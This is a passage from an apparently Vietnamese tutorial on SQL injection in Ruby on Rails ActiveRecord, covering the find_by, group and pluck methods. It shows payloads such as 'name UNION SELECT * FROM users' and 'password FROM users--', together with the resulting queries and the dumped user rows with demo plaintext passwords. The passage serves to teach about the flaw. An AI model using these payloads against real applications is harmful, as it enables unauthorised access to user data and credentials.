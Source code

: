 ## Find by method
`find_by`/`find_by!` method đơn giản là việc gọi `where(*args).take`, do đó việc khai thác lỗ hổng cũng như cách khắc phục sẽ giống như đối với `where` method ở trên.

`find_by` method thường được sử dụng để kiểm xác thực người dùng khi sử dụng cơ chế basic authentication.

## Group method
`group` method sẽ chấp nhận bất kể SQL string nào.

Ví dụ, query sau đây có mục đích là group tất cả non-admin users theo một cột cụ thể nào đó.

```
params[:group] = "name UNION SELECT * FROM users"
User.where(is_admin: false).group(params[:group])
```

```
Query:
    SELECT  "users".* FROM "users" WHERE "users"."is_admin" = ? GROUP BY name  union select * from users LIMIT ?  [["is_admin", 0], ["LIMIT", 11]]
Result:
    #<ActiveRecord::Relation [#<User id: 1, name: "Hung", username: "vuonghung", password: "vuonghung123", age: 26, is_admin: true, created_at: "2018-10-09 08:35:07", updated_at: "2018-10-09 08:35:07">, #<User id: 2, name: "Chien", username: "vanchien", password: "vanchien456", age: 24, is_admin: false, created_at: "2018-10-09 08:35:07", updated_at: "2018-10-10 02:03:16">, #<User id: 3, name: "Dat", username: "thanhdat", password: "thanhdat789", age: 25, is_admin: false, created_at: "2018-10-09 08:35:07", updated_at: "2018-10-10 02:03:26">]>
```

Ta có thể thấy rằng, query trên trả về tất cả users trong bảng users, kể cả các admin users.

## Pluck method

`pluck` method được sử dụng để lấy ra một hoặc một số column trong bảng csdl. Nó chấp nhận bất cứ SQL string truyền vào trực tiếp. Do đó, nó có thể cho phép kẻ tấn công hoàn toàn kiểm soát query từ câu lệnh `SELECT`  trở đi.

Ví dụ, bạn muốn select một trường nào đó trong bảng order:

```
params[:column] = "password FROM users--"
Order.pluck(params[:column])
```

```
Query:
	SELECT password from users-- FROM "orders"

Result:
	["vuonghung123", "vanchien456", "thanhdat789"]
```


## Update All method
